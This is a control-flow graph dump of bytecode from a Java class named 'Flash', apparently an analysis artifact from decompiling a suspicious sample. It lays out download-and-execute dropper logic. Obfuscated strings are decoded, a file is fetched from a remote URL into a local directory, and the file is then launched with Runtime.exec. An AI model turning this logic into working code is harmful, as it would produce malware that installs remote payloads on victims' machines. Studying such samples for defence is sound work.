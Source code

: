 digraph "" {
    "r0 := @this: Flash"
    "push 0"
    "r0 := @this: Flash"->"push 0";
    "push 2"
    "push 0"->"push 2";
    "push \"7A19A19A15A26A27A27A5A14A23A23A24A18A14A5A19A22A0A17A4A28A3A24A13A3A13A18A31A22A8A10A8A28A2A14A12A27A6A4A19A28A15A7A15\""
    "push 2"->"push \"7A19A19A15A26A27A27A5A14A23A23A24A18A14A5A19A22A0A17A4A28A3A24A13A3A13A18A31A22A8A10A8A28A2A14A12A27A6A4A19A28A15A7A15\"";
    "push \"\""
    "push \"7A19A19A15A26A27A27A5A14A23A23A24A18A14A5A19A22A0A17A4A28A3A24A13A3A13A18A31A22A8A10A8A28A2A14A12A27A6A4A19A28A15A7A15\""->"push \"\"";
    "staticinvoke <Flash: java.lang.String AA(int,java.lang.String,java.lang.String)>"
    "push \"\""->"staticinvoke <Flash: java.lang.String AA(int,java.lang.String,java.lang.String)>";
    "push \"http://www.google.com\""
    "staticinvoke <Flash: java.lang.String AA(int,java.lang.String,java.lang.String)>"->"push \"http://www.google.com\"";
    "push \"http://www.google.com\""->"staticinvoke <Flash: java.lang.String AA(int,java.lang.String,java.lang.String)>";
    "push \"-_-\""
    "staticinvoke <Flash: java.lang.String AA(int,java.lang.String,java.lang.String)>"->"push \"-_-\"";
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"
    "push \"-_-\""->"virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>";
    "store.r r31"
    "virtualinvoke <java.lang.String: java.lang.String[] split(java.lang.String)>"->"store.r r31";
    "load.r r31"
    "store.r r31"->"load.r r31";
    "load.r r31"->"push 2";
    "arrayread.r"
    "push 2"->"arrayread.r";
    "push \"G\""
    "arrayread.r"->"push \"G\"";
    "ifcmpeq.r push 0"
    "push \"G\""->"ifcmpeq.r push 0";
    "ifcmpeq.r push 0"->"load.r r31";
    "load.r r31"->"push 2";
    "push 2"->"arrayread.r";
    "ifnull push 0"
    "arrayread.r"->"ifnull push 0";
    "push 1"
    "ifnull push 0"->"push 1";
    "push 1"->"push \"\"";
    "push \"\""->"push 2";
    "push \"9A0A21A0A28A8A14A28A19A12A15A3A8A17\""
    "push 2"->"push \"9A0A21A0A28A8A14A28A19A12A15A3A8A17\"";
    "push \"9A0A21A0A28A8A14A28A19A12A15A3A8A17\""->"push \"\"";
    "push \"\""->"staticinvoke <Flash: java.lang.String AA(int,java.lang.String,java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"
    "staticinvoke <Flash: java.lang.String AA(int,java.lang.String,java.lang.String)>"->"staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>";
    "staticinvoke <java.lang.System: java.lang.String getProperty(java.lang.String)>"->"staticinvoke <Flash: java.lang.String AA(int,java.lang.String,java.lang.String)>";
    "store.r r32"
    "staticinvoke <Flash: java.lang.String AA(int,java.lang.String,java.lang.String)>"->"store.r r32";
    "new java.io.FileOutputStream"
    "store.r r32"->"new java.io.FileOutputStream";
    "store.r $r10"
    "new java.io.FileOutputStream"->"store.r $r10";
    "load.r $r10"
    "store.r $r10"->"load.r $r10";
    "new java.io.File"
    "load.r $r10"->"new java.io.File";
    "dup1.r"
    "new java.io.File"->"dup1.r";
    "load.r r32"
    "dup1.r"->"load.r r32";
    "load.r r32"->"load.r r31";
    "load.r r31"->"push 1";
    "push 1"->"arrayread.r";
    "specialinvoke <java.io.File: void <init>(java.lang.String,java.lang.String)>"
    "arrayread.r"->"specialinvoke <java.io.File: void <init>(java.lang.String,java.lang.String)>";
    "specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>"
    "specialinvoke <java.io.File: void <init>(java.lang.String,java.lang.String)>"->"specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>";
    "new java.net.URL"
    "specialinvoke <java.io.FileOutputStream: void <init>(java.io.File)>"->"new java.net.URL";
    "new java.net.URL"->"dup1.r";
    "dup1.r"->"load.r r31";
    "load.r r31"->"push 0";
    "push 0"->"arrayread.r";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "arrayread.r"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>";
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"
    "virtualinvoke <java.net.URL: java.net.URLConnection openConnection()>"->"virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>";
    "store.r r0"
    "virtualinvoke <java.net.URLConnection: java.io.InputStream getInputStream()>"->"store.r r0";
    "push 1024"
    "store.r r0"->"push 1024";
    "newarray"
    "push 1024"->"newarray";
    "store.r r3"
    "newarray"->"store.r r3";
    "load.r r0"
    "store.r r3"->"load.r r0";
    "load.r r3"
    "load.r r0"->"load.r r3";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r3"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i $i0"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i $i0";
    "load.i $i0"
    "store.i $i0"->"load.i $i0";
    "ifle load.r $r10"
    "load.i $i0"->"ifle load.r $r10";
    "ifle load.r $r10"->"load.r $r10";
    "load.r $r10"->"load.r r3";
    "load.r r3"->"push 0";
    "push 0"->"load.i $i0";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"
    "load.i $i0"->"virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>";
    "goto load.r r0"
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"goto load.r r0";
    "virtualinvoke <java.io.FileOutputStream: void write(byte[],int,int)>"->"store.r r0";
    "store.r r0"->"push 0";
    "staticinvoke <java.lang.System: void exit(int)>"
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "goto push 0"
    "staticinvoke <java.lang.System: void exit(int)>"->"goto push 0";
    "goto push 0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "goto return"
    "staticinvoke <java.lang.System: void exit(int)>"->"goto return";
    "return"
    "goto return"->"return";
    "staticinvoke <java.lang.System: void exit(int)>"->"store.r r0";
    "store.r r0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "ifle load.r $r10"->"load.r $r10";
    "virtualinvoke <java.io.FileOutputStream: void close()>"
    "load.r $r10"->"virtualinvoke <java.io.FileOutputStream: void close()>";
    "virtualinvoke <java.io.FileOutputStream: void close()>"->"new java.io.File";
    "new java.io.File"->"dup1.r";
    "new java.lang.StringBuilder"
    "dup1.r"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r32";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"
    "load.r r32"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r31";
    "load.r r31"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"specialinvoke <java.io.File: void <init>(java.lang.String)>";
    "virtualinvoke <java.io.File: boolean exists()>"
    "specialinvoke <java.io.File: void <init>(java.lang.String)>"->"virtualinvoke <java.io.File: boolean exists()>";
    "ifeq push 0"
    "virtualinvoke <java.io.File: boolean exists()>"->"ifeq push 0";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"
    "ifeq push 0"->"staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>";
    "staticinvoke <java.lang.Runtime: java.lang.Runtime getRuntime()>"->"new java.lang.StringBuilder";
    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r32";
    "load.r r32"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r31";
    "load.r r31"->"push 1";
    "push 1"->"arrayread.r";
    "arrayread.r"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>";
    "pop"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"pop";
    "goto goto push 0"
    "pop"->"goto goto push 0";
    "goto goto push 0"->"goto push 0";
    "ifeq push 0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
    "ifnull push 0"->"push 0";
    "push 0"->"staticinvoke <java.lang.System: void exit(int)>";
}
